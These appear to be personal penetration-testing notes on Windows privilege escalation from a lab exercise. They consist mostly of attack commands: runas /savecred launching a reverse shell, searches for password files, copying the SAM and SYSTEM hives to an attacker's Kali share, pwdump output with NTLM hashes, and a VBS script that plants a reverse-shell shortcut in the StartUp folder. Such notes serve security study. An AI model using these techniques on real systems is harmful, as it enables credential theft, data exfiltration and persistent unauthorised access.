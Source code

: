 ### Saved Creds

**cmdkey /list**

_Running saved creds from user shell as admin with their saved cred_\
**runas /savecred /user:admin \<path to reverse shell>**

#### Search for saved creds

* _// Search for files in the current dir with "pass" in the name or ending in ".config"_
* **dir /s \*pass\* == \*.config**
* _// Recursively search for files in current dir that contain word "password" and also end in either .xml, .ini, or .txt_
* **findstr /si password \*.xml \*.ini \*.txt**

**SAM Passwords**

```
#From Windows
copy C:\windows\repair\sam \\<kali IP>\directory
copy C:\windows\repair\system \\<kali IP>\directory

#On Kali
python2 creddump7/pwdump.py SYSTEM SAM

#Example
root@kali:~/Tools# python2 creddump7/pwdump.py /root/boxes/THM/windowsprivesc/SYSTEM /root/boxes/THM/windowsprivesc/SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::

```

**Startup Apps**

**cscript script thing**

```csharp
Check if you can write to StartUp directory:

C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

# If so, transfer or create the script below, transfer reverse shell, and run it
# An ADMIN or User must login to trigger the shell, ideally you want an Admin if
# you clearly already have access to transfer stuff to the machine as a user

cscript C:\Privesc\CreateShortcut.vbs

# this is what CreateShortcut.vbs is
# creates a shortcut to reverse.exe in StartUp directory
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save


```

